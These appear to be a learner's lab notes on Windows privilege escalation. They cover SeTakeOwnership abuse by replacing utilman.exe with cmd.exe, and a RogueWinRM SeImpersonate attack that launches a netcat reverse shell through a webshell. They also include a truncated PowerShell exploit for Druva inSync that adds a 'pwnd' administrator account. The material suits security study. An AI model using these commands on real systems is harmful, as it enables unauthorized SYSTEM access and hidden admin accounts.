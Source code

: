 ### SeTakeOwnership
User can take ownership of any object on the system (files, reg keys, etc.). 
Search for processes running as LocalSystem or Admin `sc //localhost query` -> `sc qc SERVICE_NAME` OR `wmic service get name,startname`
Ex.
1. Login to given user who has SeTakeOwnership flag
2. The exercise directs us to attack `utilman.exe`, which provides the Ease of Access options at the lock screen and runs as SYSTEM, but any SYSTEM level service will do.
3.  Take ownership: `takeown /f C:\Windows\System32\Utilman.exe`
4. Give self full privileges over the file: `icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F`
5. Replace the executable with cmd.exe: `copy cmd.exe utilman.exe`
6. Trigger the utilman service by locking the screen and clicking on Ease of Access
7. a system shell opens up :)

### SeImpersonate / SeAssignPrimaryToken
Impersonate allow user to spawn a process under the security context of another user (use case: FTP tries to retrieve files for Ann, but needs Ann's security context, not FTPs)
`LOCAL SERVICE` and `NETWORK SERVICE ACCOUNTS` already have these privileges since they spawn services for restricted accounts, using their privileges.
1. Spawn a process for users to connect and authenticate to for impersonation.
2. Force a privileged user to connect and authenticate to the spawned process.
Ex. 
1. Exercise directs us to the RogueWinRM exploit, and we assume we compromise a website with IIS (Internet Information Services) and planted a webshell 
2. `whoami /priv` through the webshell, and see that SeImpersonate is set (and SeAssignPrimaryToken)
3. RogueWinRM is already on the system, but typically we would GitHub and transfer it over
	1. When starting BITS. Windows by default creates a SYSTEM privilege connection to port 5985 for a WinRM service to use, BUT if the target doesn't have WinRM, we can hijack that session authentication and get SYSTEM with SeImpersonate
4. Trigger RogueWinRM with: ````shell-session
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe LOCAL_IP PORT"````, through the webshell (`-a` is "arguement" to run) 
5. Get system shell :)

# Abusing Vulnerable Software
`wmic product get name,version,vendor`
This will not provide ALL software available, only those installed through standard methods. Still check services and desktop shortcuts.
Example:
	Druva inSync 6.6.3 - provides endpoint data backup and gives a RPC over port 6064 with SYSTEM privileges. The intent was for another system to connect and provide a binary to run, but the reality is being able to run any command. A patch tried to run the command from the proper dir where the binary was supposed to be, but that was still vulnerable to path traversal via `..\..\..\` escapes.

Exploit code (Powershell):
```

$ErrorActionPreference = "Stop"  
  
$cmd = "net user pwnd /add & net localgroup administrators pwnd /add"  
  
$s = New-Object System.Net.Sockets.Socket(  
    [System.Net.Sockets.AddressFamily]::InterNetwork,  
    [System.Net.Sockets.SocketType]::Stream,  
    [System.Net.Sockets.ProtocolType]::Tcp  
)  
$s.Connect("127.0.0.1", 6064)  
  
$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")  
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")  
```